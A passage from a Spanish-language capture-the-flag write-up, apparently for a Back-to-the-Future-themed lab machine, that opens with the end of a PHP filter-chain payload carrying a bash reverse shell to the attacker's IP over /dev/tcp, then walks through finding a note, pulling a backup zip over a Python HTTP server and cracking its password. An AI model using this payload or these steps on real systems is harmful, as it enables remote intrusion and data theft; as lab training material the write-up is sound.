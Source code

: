 ```bash
t.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&cmd=bash -c 'exec bash -i %26>/dev/tcp/192.168.100.26/443 <%261'
```

---

## Escalada de Privilegios
###### Usuario `[ www-data ]`:
En el directorio personal de **marty** si revisamos en esta ruta
```bash
/home/marty/ftp
```

Tenemso un archivo **.note_to_marty.txt** si leemos us contenido
```bash
Marty, si estás leyendo esto, significa que el Delorean sigue en riesgo.
Tuve que proteger el backup del sitio web. La contraseña es una combinación del modelo del auto y el año del primer viaje temporal... en minúsculas, sin espacios.
¡Nos vemos en el futuro!
—Doc
```

Sabiendo que exise el binario de python, nos montamos un servidor para traernos el conprimido a nuestra maquina atacante
```bash
www-data@hillvalley:/home/marty/ftp$ which python3
/usr/bin/python3
```

Montamos el servidor
```bash
www-data@hillvalley:/home/marty/ftp$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Desde nuestra maquina descargamos el archivo zip
```bash
wget http://192.168.100.35:8080/backup.zip
```

para la password desde la web nos dan la informacion
```bash
7z x backup.zip

7-Zip 25.01 (x64) : Copyright (c) 1999-2025 Igor Pavlov : 2025-08-03
 64-bit locale=en_US.UTF-8 Threads:16 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 2641009 bytes (2580 KiB)

Extracting archive: backup.zip
--
Path = backup.zip
Type = zip
Physical Size = 2641009
Enter password (will not be echoed): # delorean1955
```
